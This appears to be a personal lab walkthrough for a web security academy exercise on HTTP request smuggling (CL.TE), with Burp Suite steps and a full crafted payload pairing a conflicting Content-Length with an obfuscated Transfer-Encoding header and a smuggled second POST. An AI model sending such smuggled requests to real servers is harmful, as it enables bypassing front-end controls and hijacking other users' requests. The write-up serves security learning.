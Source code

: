 
##### First used repeater then sent to turbo:

1st
proxy a get request for the home page and send it to repeater
then proxy a search (post request) and send that to repeater

2nd
smuggle probe the GET / request

3rd
go to the smuggle probe result and send it to repeater, remove the non-essential headers and
send it once to test it out

4th
copy the smuggle probed POST request, and go to the repeater tab containing the search post request from earlier
and paste the smuggle probed POST above the search POST. leave only a zero separated by a space on both sides between the two post requests


5th
edit the two requests, make them look like this:

---

POST / HTTP/1.1
Host: ac0e1f141ec03abfc0b6a6ec002b006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFER-ENCODING: chunked

0

POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close

search=PHONE

---

6th
make sure update content length is on in the repeater menue
send the dual post requests through a couple times
the goal is to reveal the hidden host header
if that isnt seen, then send the request to ..

right click on request window and select

Extensions -> HTTP Request Smuggler -> Smuggle Attack(CL.TE)


---

##### How it went & looked:

---
